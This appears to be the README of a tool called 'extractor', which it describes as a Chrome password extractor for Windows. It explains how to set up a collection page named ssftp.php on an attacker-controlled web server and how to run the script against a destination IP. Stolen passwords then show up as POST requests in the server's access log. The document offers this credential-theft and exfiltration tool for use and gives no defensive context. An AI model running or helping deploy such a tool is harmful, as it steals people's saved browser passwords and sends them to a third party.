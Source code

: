 # extractor
Chrome password extractor for windows

First, set up a php page on a web server you control named ssftp.php
After installing necessary modules with and chmod'ing it with `pip install -r requirements.txt && chmod +x extractor.py`, run with
`./extractor.py destination_ip`
The passwords will be in the access.log file if apache2 is used formatted as a post request.
